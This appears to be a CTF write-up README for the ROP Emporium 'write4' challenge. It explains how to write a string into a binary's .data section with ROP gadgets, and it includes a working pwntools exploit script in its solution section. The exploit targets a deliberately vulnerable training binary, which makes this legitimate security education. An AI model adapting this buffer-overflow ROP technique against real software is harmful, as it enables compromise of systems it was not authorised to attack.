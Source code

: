 # Write4
### 📄 Description

### Cord cut
Our favourite string `/bin/cat flag.txt` is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

### Differences
Things have been rearranged a little for this challenge; the printing logic has been moved into a separate library. The stack smash also takes place in a function within that library, but don't worry, this will have no effect on your ROP chain. A PLT entry for a function named `print_file()` exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

### Read/Write
The important thing to realise is that ROP is just a form of arbitrary code execution and if we're creative we can leverage it to do things like write to or read from memory. The question is what mechanism are we going to use to solve this problem, is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as `mov [reg], reg`.

### What/Where
Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose. Consider how much space each section might give you to work with and whether corrupting the information stored at these locations will cause you problems later if you need some kind of stability from this binary.

### Decisions, decisions
Once you've figured out how to write your string into memory and where to write it, go ahead and call `print_file()` with its location as your only argument. 

### ⚙ How to run it
```bash
./write4
```

### ⛔ Rules
Don't open the `flag.txt` file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

The description tells us what to do. We hava a symbol called `usefulGadgets` that contains a trivial write-what-where. We can use `__libc_csu_init+96` in order to initialize the required registers (`r14` and `r15`). Last thing we miss is finding a place where we can write the required string flag.txt and read it back when calling `print_file`. A good candidate is the `.data` section of the ELF because it's both readable and writable.

```python
from pwn import *

context.binary = "./write4"
r = ROP(context.binary)
p = process()
dst = context.binary.get_section_by_name(".data").header.sh_addr
r(r14=dst, r15=b"flag.txt")
r.usefulGadgets()
r.print_file(dst)
print(r.dump())
p.send(b"A" * 40 + r.chain())
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
ROPE{a_placeholder_32byte_flag!}
```
</details>